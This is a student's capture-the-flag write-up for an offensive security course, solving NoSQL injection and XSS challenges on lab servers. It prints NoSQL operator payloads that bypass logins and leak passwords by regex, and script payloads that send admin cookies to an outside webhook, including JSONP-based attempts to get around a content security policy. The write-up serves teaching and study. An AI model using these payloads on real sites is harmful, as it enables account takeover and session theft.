




# CSGY 9223 Intro to Offensive Security
# Week 12 Challenges
# nam10102

## Challenge - NoSQL-1
```
Find the secret credentials hidden behind a login portal—exploit weaknesses to access them and reveal the flag!

http://offsec-chalbroker.osiris.cyber.nyu.edu:10000
```


This one took some local testing to learn how to send in various payloads. For instance, to send in the query operators, I had to send in a new dictionary item:

```python
data = {"username": {"$ne": ""}, "password": "pass"}
```
Once I got the hang of this, I was able to send the following payload to the server using my noslq1_solver script:

```python
data = {"username": {"$ne": ""}, "password": {"$ne": ""}}
```
This authenticated my request but gave me a new challenge. Leak the password to get the flag. 

```
{'authenticated': True, 'error': '', 'message': 'Yay, do did it! Submit the password as flag.'}
```

I tried a sample regex query operator:

```python
leaked_password = "flag{"
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}"}}
```
And this was successful, so I created a looping operation to go through all the characters (number, letters and punctuation), appending each new successful login to the leaked password.

This wasn't straight forward eather, I had to make sure to escape the regex operators like +, * and . to keep it from ignoring characters or strings of characters.

```python
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}{re.escape(char)}"}}
```

The looping operated ended when the leaked password ended in "}". 

```python
Leaked password so far: flag{n0_w4y_y0u_f0und_sup3r_s3cr3t_p4ssw0rd_n0w_try_t0_h4ck_n4s4_0000000000000000}
```

## Challenge - Nuclear Code Break-In
```
Your mission: Infiltrate the admin's account to uncover the codes of nuclear weapons.

http://offsec-chalbroker.osiris.cyber.nyu.edu:10001
```


This one looked pretty straight forward. First, I had to determine if "admin" was the target username after creating a dummy profile for "nam10102":

```python
Sending request to http://offsec-chalbroker.osiris.cyber.nyu.edu:10001/api/login with data: {'username': 'admin', 'password': {'$ne': 'nam10102'}}
{'message': 'Login successful'}
```
Once I was sure "admin" was the target username, I proceeded to leak the password for "admin" using the same looping function (with minor modifications).

```python
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}{re.escape(char)}"}}

Leaked password so far: ###AdminSe@#OdkopSKDacurePass123!
No more characters to leak.
```
Then I logged in the the "admin" and leaked password, and the description displayed the code:

```python
Description: flag{y0u_h4v3_n0w_4cc3ss_t0_nucl34r_w34p0n_0000000000000000}
```
## Challenge - XSS-1
```
Get admin's cookie

admin bot:

http://offsec-chalbroker.osiris.cyber.nyu.edu:1509

website:

http://offsec-chalbroker.osiris.cyber.nyu.edu:10003
```



This was pretty interesting to figure out. I'll admit, it took me a while to see how to leak the flag, but I finally got it. I had all the right tools, just not using them properly.

The idea here is that the admin page would hit a website you gave it. Originally, I was sending it to a webhook page I had created, but the was giving me nothing. Then I used the following payload in the main challenge page for the name:

Attack payload: 
```
<script>var xhr=new XMLHttpRequest();xhr.open('GET','https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/'+document.cookie,false);xhr.send();</script>
```

This called my webhook site, but it only gave me the information I already had available to me. After much thinking and experimenting, I finally knew what I had to do. I had to get the admin site to call my webhook site through the main challenge page. By giving the admin site the URL for /greet and using my payload, it would hit the main challenge page then leak it's cookies to the webhook site.

Here's how I made it happen. First, I went to the main challenge site and entered my attack script as the name. This sent a payload to my webhook site as expected:

```python
https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/_ga_FYRV1HFMZK=GS1.1.1746287048.6.0.1746287048.0.0.0;%20CHALBROKER_USER_ID=nam10102
```

But that was only to give me the URL to input to the admin page. I grabbed this out from burp:

```python
http://offsec-chalbroker.osiris.cyber.nyu.edu:10003/greet?name=%3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27https%3A%2F%2Fwebhook.site%2Fbf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b%2F%27%2Bdocument.cookie%2Cfalse%29%3Bxhr.send%28%29%3B%3C%2Fscript%3E
```

I entered this as the URL for the admin bot, and when it called the /greet page it leaked its cookie information to the webhook site:

```python
https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/flag=flag%7BS33_XSS_1snt_s0_h4rd_1s_1t?_3ac8e9cd93202178}
```

A little URL decoding using CyberChef and I got:

````python
flag=flag{S33_XSS_1snt_s0_h4rd_1s_1t?_3ac8e9cd93202178}
````
## Challenge - XSS-2
```
Again, Get admin's cookie

admin bot:

http://offsec-chalbroker.osiris.cyber.nyu.edu:1510

website:

http://offsec-chalbroker.osiris.cyber.nyu.edu:10002
```

Admin bot:



Challenge site:



On the surface, this appears to be similar to the XSS-1 challenge. My initial thought is that I will have to navigate around some CSP. Lets send a name over and see what happens.

So in the response page I found:

```python
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.google.com;
```

Exactly what I suspected. So the plan of attack will be slightly different. I attempted to solve this challenge by using JSONP to construct my JS payload. I first attempted to go against the recitation, to test my payloads. For testing I added a cookie called "flag" = "winner"

```
<script src="https://bebezoo.1688.com/fragment/index.htm?callback=alert(document.cookie)"></script>
```

With this, I was able to pop an alert on my screen. However, when I went to push the script that calls my webhook, I ran into issues:
```
<script src="https://bebezoo.1688.com/fragment/index.htm?callback=var%20xhr=new%20XMLHttpRequest();xhr.open('GET','https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/'+document.cookie,false);xhr.send();"></script>
```
The first was that the '+' used to grap the document.cookie was mangling the url request, so I had to replace it with '%2B':
```
<script src="https://bebezoo.1688.com/fragment/index.htm?callback=var%20xhr=new%20XMLHttpRequest();xhr.open('GET','https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/'%2bdocument.cookie,false);xhr.send();"></script>
```
This worked but never sent the cookie to the webhook server. I tried sending my payload using the google.com JSONP:

```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=var%20xhr%3dnew%20XMLHttpRequest();xhr.open('GET','https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/'%2Bdocument.cookie,false);xhr.send();"></script>
```
And that grabbed the cookie, but got rejected calling my webhook:

```
revoke?callback=var%20xhr%3dnew%20XMLHttpRequest();xhr.open(%27GET%27,%27https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/%27%2Bdocument.cookie,false);xhr.send();:2 Refused to connect to 'https://webhook.site/bf88a9f7-174c-4b1e-8c6e-cc8f35f5ca5b/flag=winner' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'connect-src' was not explicitly set, so 'default-src' is used as a fallback.
```
I tried sever attempts to get this to work, but I must have been going down the wrong path.

Punting on this one.